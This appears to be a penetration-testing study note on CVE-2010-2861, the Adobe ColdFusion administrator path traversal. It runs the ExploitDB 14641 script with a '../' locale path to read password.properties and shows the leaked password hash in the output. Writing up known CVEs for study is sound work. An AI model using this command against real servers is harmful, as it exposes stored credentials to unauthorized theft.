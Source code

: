 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# CVE-2010-2861 - Path Traversal

Multiple directory traversal vulnerabilities in the administrator console in _**Adobe ColdFusion 9.0.1 and earlier**_ allow remote attackers to read arbitrary files via the locale parameter to:

1. CFIDE/administrator/settings/mappings.cfm
2. logging/settings.cfm
3. datasources/index.cfm
4. j2eepackaging/editarchive.cfm
5. enter.cfm in CFIDE/administrator/

{% hint style="info" %}
## NVD CVE

[https://nvd.nist.gov/vuln/detail/CVE-2010-2861](https://nvd.nist.gov/vuln/detail/CVE-2010-2861)
{% endhint %}

{% hint style="info" %}
## ExploitDB

[https://www.exploit-db.com/exploits/14641](https://www.exploit-db.com/exploits/14641)
{% endhint %}

## Exploitation

The `password.properties` file in ColdFusion is a configuration file that securely stores encrypted passwords for various services and resources the ColdFusion server uses. It contains a list of key-value pairs, where the key represents the resource name and the value is the encrypted password.

These encrypted passwords are used for services like `database connections`, `mail servers`, `LDAP servers`, and other resources that require authentication. By storing encrypted passwords in this file, ColdFusion can automatically retrieve and use them to authenticate with the respective services without requiring the manual entry of passwords each time.

The file is usually in the `[cf_root]/lib` directory and can be managed through the ColdFusion Administrator.

{% code title="Command" %}
```bash
python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"
```
{% endcode %}

{% code title="Output" %}
```
------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
```
{% endcode %}

As we can see, the contents of the `password.properties` file have been retrieved, proving that this target is vulnerable to `CVE-2010-2861`.
